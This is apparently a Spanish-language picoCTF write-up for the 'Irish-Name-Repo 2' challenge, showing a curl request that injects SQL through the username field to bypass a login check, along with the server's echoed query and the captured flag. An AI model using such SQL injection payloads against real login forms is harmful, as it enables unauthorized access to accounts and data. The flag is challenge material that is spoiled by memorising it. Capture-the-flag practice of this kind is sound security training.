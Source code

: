 # Irish-Name-Repo 2

## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

## Pistas
- The password is being filtered.
## Solución
```shell
heligarcia-picoctf@webshell:~$ curl -s https://jupiter.cha53751/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>heligarcia-picoctf@webshell:~$ ^C
```

## Bandera
picoCTF{m0R3_SQL_plz_c34df170}

## Notas adicionales
Payloads

## Referencias
None
